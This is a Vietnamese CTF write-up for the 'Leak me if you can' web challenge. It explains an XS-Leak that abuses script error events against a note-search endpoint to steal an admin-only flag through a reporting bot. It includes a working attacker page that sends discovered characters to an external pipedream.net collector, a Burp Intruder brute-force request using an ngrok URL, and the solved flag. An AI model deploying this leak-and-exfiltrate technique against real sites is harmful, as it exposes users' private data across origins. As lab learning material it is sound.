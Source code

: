 ## Leak me if you can

Bài whitebox: Challenge là 1 trang có chức năng tạo note, đọc note và tìm kiếm note. Có 2 loại note là `is_admin` `1` hoặc `0`, flag nằm ở note `is_admin`.
Ngoài ra có chức năng report báo cáo 1 url cho admin và 1 con bot sẽ tự động đến xem.

```js
    async init() {
        return this.db.exec(`
            PRAGMA case_sensitive_like=ON; 

            DROP TABLE IF EXISTS notes;

            CREATE TABLE IF NOT EXISTS notes (
                id          INTEGER NOT NULL PRIMARY KEY AUTOINCREMENT,
                note        VARCHAR(255) NOT NULL,
                author       VARCHAR(255) NOT NULL,
                is_admin    BOOLEAN NOT NULL
            );

            INSERT INTO notes (id, note, author, is_admin) VALUES (0, "REDACTED", "nhienit", 1);
        `);
    }
```

Để là admin thì cần truy cập từ localhost

Review source code thì các chức năng đều an toàn, chú ý tới:
```js
// ........
const isAdmin = req => ((req.ip == '127.0.0.1') ? 1 : 0);
// ...........

router.get('/notes/search', (req, res) => {
	if(req.query.note) {
		const query = `${req.query.note}%`;
		return db.findNote(query, isAdmin(req))
			.then(notes => {
				if(notes.length == 0) return res.status(404).send(response('No  results!'));
				res.json(notes);
			})
			.catch(() => res.send(response('Something went wrong! Please try again!')));
	}
	return res.status(403).json(response('Missing "note" parameters!'));
});

// .............
```

Nếu tìm thấy note status code sẽ là `200` trong khi nếu không thì `404`. Ok đây là 1 bài XSLeak, ta có thể dùng script để load thử route `/notes/search` tìm kiếm note, nếu đúng thì onload được, 404 sẽ là error: https://xsleaks.dev/docs/attacks/error-events/

`index.html`:
```html
<head>
  
</head>

<script>
function probeError(url, flag) {
  let script = document.createElement('script');
  script.src = url;
  script.onload = () => {
    fetch('https://eog308gfphj31fc.m.pipedream.net?flag='+flag)
  };
  script.onerror = () => console.log('Error event triggered');
  document.head.appendChild(script);
}

const urlParams = new URLSearchParams(window.location.search);
flag = urlParams.get('flag');

url = 'http://localhost:13337/notes/search?note='+flag;
probeError(url, flag);
</script>
```

Brute force thủ công bằng *Burpsuite Intruder* khi submit url đến `/report` cho con bot nhìn:
```
POST /report HTTP/1.1
Host: localhost:13337
Content-Length: 50
Content-Type: application/x-www-form-urlencoded
Connection: close

url=https://451d-8-21-11-111.ap.ngrok.io/?flag=KCSC{W0W_H4§target§
```

Flag chỉ có con bot nằm ở localhost mới thấy được. Bằng cách submit url trỏ đến trang `index.html` mình tự host, nếu onload không lỗi thì `fetch` đến pipe dream cùng kí tự vừa tìm thấy được, lặp đi lặp lại cho đến khi tìm được flag.

Có cách automate bằng python nhanh hơn nhưng công code thì mệt hơn

**flag**: `KCSC{W0W_H4v3_U_h3ard_4b0ut_XS_L34k?}`
